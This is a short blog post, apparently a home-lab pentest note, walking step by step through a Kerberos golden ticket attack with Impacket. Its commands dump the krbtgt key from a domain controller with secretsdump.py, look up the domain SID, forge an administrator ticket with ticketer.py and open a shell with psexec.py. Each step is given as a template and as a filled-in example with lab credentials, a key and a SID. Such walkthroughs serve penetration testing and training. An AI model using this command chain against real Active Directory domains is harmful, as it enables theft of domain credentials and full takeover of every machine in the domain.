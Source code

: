 ```yaml
---
layout: post
title: Golden Ticket Attacks using Impacket
---
```


After playing about with Mimikatz for a bit and looking at a few options to bypass the anti virus, I decided a different tool might make more sense.
Impacket contains a number of tools that can be used to obtain the krbtg hash and the domain SID, create a golden ticket offline and then obtain a shell using the Kerberos ticket.

> [!NOTE]
> Credentials are needed to run these commands on the domain controller. These can be obtained by cracking NTLM hashes  or running a MITM6 attack.

<br>

<details>
<summary>
  Use secretsdump.py to obtain the aes256 key for the krbtgt account
</summary> 
<br>
  
    secretsdump.py <domain>/<user>:<password> <dc-ip>
<br>

    secretsdump.py home.local/TaMBSZZkfd:Password11@10.0.2.250
    
</details>

<br>
<details>
<summary>
  Use lookupsid.py to find the domain SID
</summary> 
  <br>
  
    lookupsid.py <domain>/<user>:<password> <dc-ip>
<br>
  
    lookupsid.py home.local/TaMBSZZkfd:'?^kigXF?oG,y{o='@10.0.2.250
</details>

<br>
<details>
<summary>
  Use ticketer.py to create TGT
</summary>
  <br>
  
    ticketer.py -aes <aes-256> -domain-sid <SID> -domain <domain> -user-id <500> username
<br>
  
    ticketer.py -aes 5735dd8eaf424d966ef640d4056e2eb90310345d58b074103444483bdf736861 -domain-sid S-1-5-21-536825828-3248286720-2276939788 -domain home.local -user-id 500 administrator
</details>

<br>
<details>
<summary>
  Export KRB5CCNAME to created ticket location
</summary>
  <br>
  
    export KRB5CCNAME=/home/kali/Documents/administrator.ccache
</details>

<br>
<details>
<summary>
  Use psexec to obtain a shell on any machine in the domain </h4>
</summary>
  <br>
  
    psexec.py <domain>/<user>@<hostname>.<fqdn> -no-pass -k
<br>
  
    psexec.py home.local/administrator@TargetPC.home.local -no-pass -k
</details>
